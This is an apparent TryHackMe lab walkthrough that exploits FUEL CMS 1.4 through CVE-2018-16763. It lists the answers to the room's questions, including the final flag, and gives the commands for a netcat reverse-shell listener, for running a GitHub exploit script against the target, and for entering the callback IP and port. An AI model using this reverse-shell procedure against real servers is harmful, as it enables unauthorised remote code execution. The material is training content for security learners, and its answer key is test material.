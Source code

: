 TryHackMe | Vulnerability Capstone: https://tryhackme.com/room/vulnerabilitycapstone

1. Deploy the vulnerable machine attached to this task & wait **five minutes** before visiting the vulnerable machine.

2. What is the name of the application running on the vulnerable machine?

> **Method**:
> - Open a web browser and enter the target IP into the URL bar. You will be redirected into a website running HTTP. We know that the machine has HTTP service running.   

> **Answer**: FUEL CMS

3. What is the version number of this application?

> **Method**
> - The answer is in the same page as the answer in Question 1

> **Answer**: 1.4

4. What is the number of the CVE that allows an attacker to remotely execute code on this application?
*Format:** CVE-XXXX-XXXXX

> **Method**
> - The app running is Fuel CMS. The clue here is *remotely execute code*. So we are looking for Remote Code Execution exploit for the app.
> - Open ExploitDB https://www.exploit-db.com and search for "Fuel CMS Remote Code Execution"
> - Open the result at the most top, which is [Fuel CMS 1.4.1 - Remote Code Execution (3)](https://www.exploit-db.com/exploits/50477)

> Answer: CVE-2018-16763 

5. Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability. 
    **Note:** There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)

> **Hint** 
> - If you are struggling, there is an exploit located on the AttackBox under /usr/share/exploits/vulnerabilitiescapstone

> No answer needed for this one. 

6. What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.

> **Hint**
> - Some exploits will require you to setup a netcat reverse listener to gain access to the shell

> **Method**:
> - The exploit given above does not work for my machine. So I find an alternative from GitHub # AssassinUKG | **fuleCMS** https://github.com/AssassinUKG/fuleCMS)
> - Create a .py file with the codes taken from the exploit or download the source code itself. I named it ```cms-rce.py```
> - Before running the script, setup a netcan reverse listener to allow reverse shell connection.
> > Command:
> > ```bash
> > netcat -lnvp 9001 #I use port 9001 for incoming connection
> > ``` 
> - Run the Python reverse shell script
> > Command
> > ```bash
> > python3 cms-rce.py 10.10.12.87 #target IP address
> > ```
> - In the script, enter `shell_me` and IP:PORT
> > ```text
> > fuelCMS$ shell_me
> > Enter IP:PORT $ 10.4.26.94:9001
> >   
> > #my TryHackMe IP and port set in netcat
> > ```
> - After establishing reverse shell connection, verify with `whoami` and all that shit.
> - Referring to the question, navigate to `/home/ubuntu` and use `ls` to find the `flag.txt` file
> - You have found the flag. Congrats.

> **Answer**: THM{ACKME_BLOG_HACKED}

![[fuelcms-exploit.png]]